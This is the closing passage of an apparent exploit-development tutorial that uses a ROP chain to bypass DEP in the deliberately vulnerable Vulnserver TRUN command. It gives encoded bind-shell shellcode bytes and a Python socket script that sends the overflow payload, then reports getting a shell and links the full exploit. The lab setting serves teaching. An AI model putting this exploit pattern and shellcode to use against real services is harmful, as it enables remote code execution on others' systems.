SHELL += b"\xd5\x96\x85\xee\x5e\x1c\xf0\xc1\x5f\x0d\xc0\x40"
SHELL += b"\xdc\x4c\x15\xa2\xdd\x9e\x68\xa3\x1a\xc2\x81\xf1"
SHELL += b"\xf3\x88\x34\xe5\x70\xc4\x84\x8e\xcb\xc8\x8c\x73"
SHELL += b"\x9b\xeb\xbd\x22\x97\xb5\x1d\xc5\x74\xce\x17\xdd"
SHELL += b"\x99\xeb\xee\x56\x69\x87\xf0\xbe\xa3\x68\x5e\xff"
SHELL += b"\x0b\x9b\x9e\x38\xab\x44\xd5\x30\xcf\xf9\xee\x87"
SHELL += b"\xad\x25\x7a\x13\x15\xad\xdc\xff\xa7\x62\xba\x74"
SHELL += b"\xab\xcf\xc8\xd2\xa8\xce\x1d\x69\xd4\x5b\xa0\xbd"
SHELL += b"\x5c\x1f\x87\x19\x04\xfb\xa6\x38\xe0\xaa\xd7\x5a"
SHELL += b"\x4b\x12\x72\x11\x66\x47\x0f\x78\xef\xa4\x22\x82"
SHELL += b"\xef\xa2\x35\xf1\xdd\x6d\xee\x9d\x6d\xe5\x28\x5a"
SHELL += b"\x91\xdc\x8d\xf4\x6c\xdf\xed\xdd\xaa\x8b\xbd\x75"
SHELL += b"\x1a\xb4\x55\x85\xa3\x61\xc3\x8d\x02\xda\xf6\x70"
SHELL += b"\xf4\x8a\xb6\xda\x9d\xc0\x38\x05\xbd\xea\x92\x2e"
SHELL += b"\x56\x17\x1d\x41\xfb\x9e\xfb\x0b\x13\xf7\x54\xa3"
SHELL += b"\xd1\x2c\x6d\x54\x29\x07\xc5\xf2\x62\x41\xd2\xfd"
SHELL += b"\x72\x47\x74\x69\xf9\x84\x40\x88\xfe\x80\xe0\xdd"
SHELL += b"\x69\x5e\x61\xac\x08\x5f\xa8\x46\xa8\xf2\x37\x96"
SHELL += b"\xa7\xee\xef\xc1\xe0\xc1\xf9\x87\x1c\x7b\x50\xb5"
SHELL += b"\xdc\x1d\x9b\x7d\x3b\xde\x22\x7c\xce\x5a\x01\x6e"
SHELL += b"\x16\x62\x0d\xda\xc6\x35\xdb\xb4\xa0\xef\xad\x6e"
SHELL += b"\x7b\x43\x64\xe6\xfa\xaf\xb7\x70\x03\xfa\x41\x9c"
SHELL += b"\xb2\x53\x14\xa3\x7b\x34\x90\xdc\x61\xa4\x5f\x37"
SHELL += b"\x22\xd4\x15\x15\x03\x7d\xf0\xcc\x11\xe0\x03\x3b"
SHELL += b"\x55\x1d\x80\xc9\x26\xda\x98\xb8\x23\xa6\x1e\x51"
SHELL += b"\x5e\xb7\xca\x55\xcd\xb8\xde"

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Align stack
    b'\x83\xE4\xF0' +   # and esp, 0xfffffff0
    SHELL +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Note that I added the `and esp, 0xfffffff0` instruction before the
shellcode to align the stack. This is commonly needed when you mess
around with the stack.

Let's check it now:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331215/blog/vulnserver-trun-rop/success_y8d4wg.gif[Success]

Great! We successfuly disabled `DEP` for our process and got a shell!

You can download the final exploit link:exploit.py[here].

== Conclusions

In this article, we used the power of Return-Oriented Programming to
complete a working exploit with a binded `TCP` shell on a DEP-enabled OS.
As each application is different, using `ROP` gadgets to perform complex
operations is an art, because there is not a generic way to do it.
